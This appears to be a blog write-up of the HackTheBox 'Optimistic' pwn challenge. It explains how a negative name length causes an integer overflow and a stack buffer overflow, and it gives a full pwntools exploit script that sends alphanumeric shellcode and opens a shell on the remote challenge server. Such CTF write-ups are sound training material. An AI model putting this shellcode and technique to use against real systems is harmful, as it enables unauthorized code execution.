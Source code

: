 ```yaml
---

title: HTB [OPTIMISTIC] [PWN]

date: 2022-06-03 02:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

excerpt: Write up for the challenge "Optimistic" from HackTheBox
---
```


## optimistic

**Challenge description:**

> Are you ready to feel positive?


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

- **NX disabled** ,Seems like here also we need to execute the shellcode

![](https://i.imgur.com/tihwCaQ.png)
- If we enter 'y' then we can able to get a stack leak
- And there are few more input prompts, let's see that one by  one

**Decompile main()**

```c
void main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_84;
  undefined4 local_80;
  undefined2 local_7c;
  char option;
  undefined local_79;
  undefined auStack120 [8];
  undefined auStack112 [8];
  char local_68 [96];
  
  initialize();
  puts("Welcome to the positive community!");
  puts("We help you embrace optimism.");
  printf("Would you like to enroll yourself? (y/n): ");
  iVar1 = getchar();
  option = (char)iVar1;
  getchar();
  if (option != 'y') {
    puts("Too bad, see you next time :(");
    local_79 = 0x6e;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Great! Here\'s a small welcome gift: %p\n",&stack0xfffffffffffffff8);
  puts("Please provide your details.");
  printf("Email: ");
  sVar2 = read(0,auStack120,8);
  local_7c = (undefined2)sVar2;
  printf("Age: ");
  sVar2 = read(0,auStack112,8);
  local_80 = (undefined4)sVar2;
  printf("Length of name: ");
  __isoc99_scanf(&DAT_00102104,&local_84);
  if (0x40 < (int)local_84) {
    puts("Woah there! You shouldn\'t be too optimistic.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Name: ");
  sVar2 = read(0,local_68,(ulong)local_84);
  local_84 = 0;
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
  puts("Sorry, that\'s an invalid name.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- Email & age seems safe
- But there's a length input
- We can enter the size of the length that gonna get input from us after few lines
- But there's a condition check, we can't give more than `0x40` bytes
- If we do that program will exit

![](https://i.imgur.com/q6P0WwA.png)
- Here we need to notice that the length input is an unsigned integer, so there's a integer overflow here
- Challenge's description also denotes that
- If we give `-1` as input then we can able to change that value into a largest possible unsigned integer 
- Now we can able to do buffer overflow

**Exploitation part:**
- Simply generate a pattern and find the offset to RIP
- RIP offset => 104
- But there's a problem

```c
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
```
- There's a check here, our payload need to be larger than `57` Ascii value
- Which means we need only alpha numeric chars
- Let's search for alphanumeric shellcode
- This one looks good [click here](https://www.exploit-db.com/shellcodes/35205)
- So our full exploit be like
- Also remember we need to subtract 96 from the stack leak, our buffer starts before  96 bytes from the leak

**Exploit script:**

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("optimistic",checksec=False)
p = elf.process()
p = remote('188.166.172.138',30591)


# getting leak
p.sendlineafter('y/n): ','y')
p.recvuntil('gift: ')
stack_leak = int(p.recvline().decode(),16)

# filling rest
p.sendlineafter('Email: ','jo')
p.sendlineafter('Age: ','19')
p.sendlineafter('name: ','-1')

# crafting payload
payload = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
payload += b'A'*(104 - len(payload)) # junk
payload += p64(stack_leak-96) # stack base

# sending exploit & getting shell
p.sendlineafter('Name: ',payload)
p.interactive()
```

![](https://i.imgur.com/xoI4oQv.png)
- Cool it worked!
